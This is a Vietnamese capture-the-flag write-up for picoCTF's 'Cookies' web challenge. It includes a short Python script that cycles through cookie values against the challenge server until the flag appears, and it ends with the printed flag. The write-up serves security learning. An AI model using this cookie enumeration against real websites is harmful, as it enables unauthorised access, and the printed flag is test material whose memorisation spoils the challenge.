






# WriteUp Cookies

#### *pico CTF*
---

> <font size=5px> Yêu cầu của thử thách như sau


>Truy cập vào web theo đường link được cung cấp.


> Kiểm tra thông tin cookie của trang web


> Nhập thử từ được  gợi ý trong placeholder *snickerdoodle*, thu được phản hồi sau:


> Kiểm tra thông tin cookie của trang web


> Có thể thấy khi nhập đúng tên loại bánh thì cookie sẽ chuyển sang giá trị khác (chuyển từ -1 sang 0)
>Vì vậy, ta sẽ viết một chương trình để gửi request liên tục đến server. Với mỗi request thì cookie sẽ được thay đổi.

>Code
```python
import requests
from requests import cookies

domain = 'http://mercury.picoctf.net:54219/check'

for i in range(1, 31):
    cookie = {'name':str(i)}
    req = requests.get(domain, cookies=cookie)
    data = req.text
    if 'picoCTF' in data:
        print(data)
```
> Mình sẽ quét thử trong khoảng ***[1;30]*** để tìm flag, nếu không tìm được sẽ chuyển sang khoảng khác. Sau một thời gian chạy, mình thu được:


>Flag: ***picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}***
### ***Nộp thôi!***